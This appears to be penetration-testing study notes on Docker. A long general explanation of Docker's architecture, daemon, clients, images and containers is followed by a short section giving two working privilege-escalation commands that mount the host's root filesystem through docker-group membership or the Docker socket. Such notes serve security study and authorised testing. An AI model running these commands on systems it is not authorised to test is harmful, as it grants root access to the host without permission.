 # Docker

<details>
<summary>Docker description</summary>
Docker is a popular open-source tool that provides a portable and consistent runtime environment for software applications. It uses containers as isolated environments in user space that run at the operating system level and share the file system and system resources. One advantage is that containerization thus consumes significantly fewer resources than a traditional server or virtual machine. The core feature of Docker is that applications are encapsulated in so-called Docker containers. They can thus be used for any operating system. A Docker container represents a lightweight standalone executable software package that contains everything needed to run an application code runtime.

### Docker Architecture
At the core of the Docker architecture lies a client-server model, where we have two primary components:

 - The Docker daemon
 - The Docker client

The Docker client acts as our interface for issuing commands and interacting with the Docker ecosystem, while the Docker daemon is responsible for executing those commands and managing containers.

### Docker Daemon
The Docker Daemon, also known as the Docker server, is a critical part of the Docker platform that plays a pivotal role in container management and orchestration. Think of the Docker Daemon as the powerhouse behind Docker. It has several essential responsibilities like:

 - running Docker containers
 - interacting with Docker containers
 - managing Docker containers on the host system.

### Managing Docker Containers
Firstly, it handles the core containerization functionality. It coordinates the creation, execution, and monitoring of Docker containers, maintaining their isolation from the host and other containers. This isolation ensures that containers operate independently, with their own file systems, processes, and network interfaces. Furthermore, it handles Docker image management. It pulls images from registries, such as Docker Hub or private repositories, and stores them locally. These images serve as the building blocks for creating containers.

Additionally, the Docker Daemon offers monitoring and logging capabilities, for example:

 - Captures container logs
 - Provides insight into container activities, errors, and debugging information.
 - The Daemon also monitors resource utilization, such as CPU, memory, and network usage, allowing us to optimize container performance and troubleshoot issues.

### Network and Storage
It facilitates container networking by creating virtual networks and managing network interfaces. It enables containers to communicate with each other and the outside world through network ports, IP addresses, and DNS resolution. The Docker Daemon also plays a critical role in storage management, since it handles Docker volumes, which are used to persist data beyond the lifespan of containers and manages volume creation, attachment, and clean-up, allowing containers to share or store data independently of each other.

### Docker Clients
When we interact with Docker, we issue commands through the Docker Client, which communicates with the Docker Daemon (through a RESTful API or a Unix socket) and serves as our primary means of interacting with Docker. We also have the ability to create, start, stop, manage, remove containers, search, and download Docker images. With these options, we can pull existing images to use as a base for our containers or build our custom images using Dockerfiles. We have the flexibility to push our images to remote repositories, facilitating collaboration and sharing within our teams or with the wider community.

In comparison, the Daemon, on the other hand, carries out the requested actions, ensuring containers are created, launched, stopped, and removed as required.

Another client for Docker is Docker Compose. It is a tool that simplifies the orchestration of multiple Docker containers as a single application. It allows us to define our application's multi-container architecture using a declarative YAML (.yaml/.yml) file. With it, we can specify the services comprising our application, their dependencies, and their configurations. We define container images, environment variables, networking, volume bindings, and other settings. Docker Compose then ensures that all the defined containers are launched and interconnected, creating a cohesive and scalable application stack.

### Docker Desktop
Docker Desktop is available for MacOS, Windows, and Linux operating systems and provides us with a user-friendly GUI that simplifies the management of containers and their components. This allows us to monitor the status of our containers, inspect logs, and manage the resources allocated to Docker. It provides an intuitive and visual way to interact with the Docker ecosystem, making it accessible to developers of all levels of expertise, and additionally, it supports Kubernetes.

### Docker Images and Containers
Think of a Docker image as a blueprint or a template for creating containers. It encapsulates everything needed to run an application, including the application's code, dependencies, libraries, and configurations. An image is a self-contained, read-only package that ensures consistency and reproducibility across different environments. We can create images using a text file called a Dockerfile, which defines the steps and instructions for building the image.

A Docker container is an instance of a Docker image. It is a lightweight, isolated, and executable environment that runs applications. When we launch a container, it is created from a specific image, and the container inherits all the properties and configurations defined in that image. Each container operates independently, with its own filesystem, processes, and network interfaces. This isolation ensures that applications within containers remain separate from the underlying host system and other containers, preventing conflicts and interference.

While images are immutable and read-only, containers are mutable and can be modified during runtime. We can interact with containers, execute commands within them, monitor their logs, and even make changes to their filesystem or environment. However, any modifications made to a container's filesystem are not persisted unless explicitly saved as a new image or stored in a persistent volume.

</details>

### Docker Privilege Escalation

if user in docker group

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

else if user is having access to docker socket. Use it with docker binary to mount existing system to the container

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```





